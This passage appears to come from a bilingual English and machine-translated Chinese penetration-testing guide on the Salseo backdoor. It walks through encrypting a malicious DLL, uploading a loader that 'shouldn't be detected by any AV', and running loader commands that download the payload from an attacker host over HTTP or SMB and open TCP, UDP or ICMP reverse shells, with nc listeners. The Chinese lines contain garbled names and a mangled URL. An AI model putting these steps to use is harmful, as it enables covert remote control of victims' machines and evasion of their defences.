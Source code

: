 ```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```

Ok, now you have everything you need to execute all the Salseo thing: the **encoded EvilDalsa.dll** and the **binary of SalseoLoader.**

好的，现在您拥有执行所有Salseo的一切所需的一切：**编码的evildalsa.dll **和salseoloader的**二进制文件。**

**Upload the SalseoLoader.exe binary to the machine. They shouldn't be detected by any AV...**

**将salseoloader.exe二进制上传到机器。 任何AV都不应该检测到它们... **

## **Execute the backdoor**

## **执行后门**

### **Getting a TCP reverse shell (downloading encoded dll through HTTP)**

### **获取TCP反向外壳（通过HTTP下载编码的DLL）**

Remember to start a nc as the reverse shell listener and a HTTP server to serve the encoded evilsalsa.

请记住，将NC作为反向外壳侦听器和HTTP服务器启动，以服务编码的Evilsalsa。

```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```

### **Getting a UDP reverse shell (downloading encoded dll through SMB)**

### **获取UDP反向外壳（通过SMB下载编码的DLL）**

Remember to start a nc as the reverse shell listener, and a SMB server to serve the encoded evilsalsa (impacket-smbserver).

请记住，启动NC作为反向外壳侦听器和SMB服务器，以服务编码的Evilsalsa（Impacket-Smbserver）。

```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```

### **Getting a ICMP reverse shell (encoded dll already inside the victim)**

### **获取ICMP反向外壳（受害者内部已经编码的DLL）**

**This time you need a special tool in the client to receive the reverse shell. Download:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

**这次您需要客户中的特殊工具来接收反向外壳。 下载：** [** https：//github.com/inquarb/icmpshxhyde]
